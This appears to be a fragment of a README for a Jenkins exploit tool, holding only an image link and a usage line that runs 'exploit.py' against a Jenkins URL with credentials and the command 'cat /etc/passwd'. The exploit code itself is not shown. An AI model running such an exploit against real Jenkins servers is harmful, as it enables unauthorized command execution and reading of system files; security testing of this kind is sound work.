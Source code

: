 
## Usage:
`python exploit.py --url http://jenkins-site.com --job job_name --username your_user --password your_passwd --cmd "cat /etc/passwd"`
